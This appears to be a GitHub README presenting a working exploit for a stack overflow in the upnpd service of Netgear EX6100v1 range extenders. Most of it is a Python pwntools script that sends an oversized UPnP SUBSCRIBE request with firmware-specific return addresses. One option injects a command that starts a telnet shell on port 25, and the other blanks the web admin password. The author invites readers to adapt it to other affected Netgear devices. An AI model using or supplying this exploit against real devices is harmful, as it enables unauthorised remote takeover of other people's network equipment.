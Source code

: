# Netgear_product_stack_overflow

#### EX6100v1-exp

**The script of using ex6100 device is mainly written here. Because upnpd service is ported, there will be more devices affected by this vulnerability in addition to the devices officially notified. However, there are only ex6100 devices in hand, so there is only the script of using this device. The rest of the scripts can be explored by ourselves or communicated with me**

Before using the script, please determine the firmware version of the target machine. Because this script will crash the service. If the attack fails and the machine can be restarted next to it, the machine will automatically start the vulnerability service. After determining the firmware version, use the script again to succeed in the attack

```
#Aouth:doudoudedi
#please pip install pwn
from pwn import *
import sys
request=''
try:
	target_ip=sys.argv[1]
	target_version=sys.argv[2]
except:
	print("python ./exp.py ipaddress id")
	print("if you firmware version is EX6100-V1.0.2.28_1.1.138.chk or please EX6100-V1.0.2.28_1.1.136 id is 1")
	print("if you firmware version is EX6100-V1.0.2.24_1.1.134.chk id is 2")
	exit(0)

def generate_payload():
	global target_version,request
	if target_version=="1": 
		system_addr=0x00422848
		change_password=0x042C550
	if target_version=="2":
		system_addr=0x422828
		change_password=0x042C530
	aim=0
	print("1.open telnetd 25\n2.change http password (NULL)")
	choice=int(input())
	if(choice==1):
		aim=system_addr
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request = request.ljust(0x1f48-0x14,b"a")
		request += p32(aim)
	if(choice==2):
		aim=change_password
		request = b"SUBSCRIBE /gena.telnetd${IFS}-p${IFS}25;?service=" + b"1" + b" HTTP/1.0\n"
		request += b"Host: " + b"192.168.1.0:" + b"80" + b"\n"
		request += b"Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
		request += b"NT: upnp:event\n"
		request += b"Timeout: Second-1800\n"
		request += b"Accept-Encoding: gzip, deflate\n"
		request += request+b"doud"
		request += request
		request = request.ljust(0x1f00,b"a")
		request += p32(0x7fff7030)
		request += p32(0x7fff7030)*12
		request += p32(0x42C550)
		request += p32(aim)


def attack():
	p=remote(target_ip,5000)
	p.send(request)
	#p.interactive()
#request += p32(0x422944)
#request += "a"*0x500
#request += p32(0x7fff7030)*8
if __name__=="__main__":
	generate_payload()
	attack()
```
示列
![image-20220420111910096](./img/image-20220420111910096.png)

